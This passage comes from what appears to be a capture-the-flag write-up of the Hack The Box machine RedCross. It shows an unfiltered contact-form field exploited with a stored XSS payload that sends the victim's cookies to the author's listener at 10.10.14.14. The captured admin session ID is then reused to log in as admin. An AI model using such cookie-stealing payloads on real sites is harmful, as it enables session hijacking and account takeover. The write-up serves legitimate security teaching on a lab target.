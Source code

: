 In the contact form, at `https://intra.redcross.htb/?page=contact`, if I try
to enter script tags into the subject or the body, I get an error:

![1554236901609](https://0xdfimages.gitlab.io/img/1554236901609.png)

That same check does not happen in the “Contact phone or email” text box. I’ll
build a simple XSS payload:

`<script>new
Image().src="http://10.10.14.14:8888/cookie.php?c="+document.cookie;</script>`

The script tries to create an image in the HTML with a source of my host that
includes the user’s cookies. I’ll start a python web server and submit the
tag:

![1554236998078](https://0xdfimages.gitlab.io/img/1554236998078.png)

In a few seconds, I get a hit on the webserver:

    
    
    root@kali# python3 -m http.server 8888
    Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
    10.10.10.113 - - [02/Apr/2019 16:29:42] code 404, message File not found
    10.10.10.113 - - [02/Apr/2019 16:29:42] "GET /cookie.php?c=PHPSESSID=pqap288bkav9od4ga69g0r3os2;%20LANG=EN_US;%20SINCE=1554236439;%20LIMIT=10;%20DOMAIN=admin HTTP/1.1" 404 -
    

Now I can take that `PHPSESSID` over to `admin.redcross.htb`, and use my
Firefox cookie editing plugin to set the cookie:

![1554237125748](https://0xdfimages.gitlab.io/img/1554237125748.png)

Now I refresh the page, and I’m logged in as admin:

![1554237187933](https://0xdfimages.gitlab.io/img/1554237187933.png)

### Path 2: Cookie From Login

#### Create Account

Instead of exploiting the form, I’ll fill it out following the instructions to
create an account:

![1554219622783](https://0xdfimages.gitlab.io/img/1554219622783.png)

I have firefox set up to [not redirect without
permission](https://superuser.com/questions/874819/prevent-automatic-
redirects-in-firefox). On hitting submit, the first page that loads is a
redirect, but the body says:

![1554219664842](https://0xdfimages.gitlab.io/img/1554219664842.png)

On allowing the redirect, I’m back at the main login. And logging in with
guest / guest works and drops me at a Account info page:
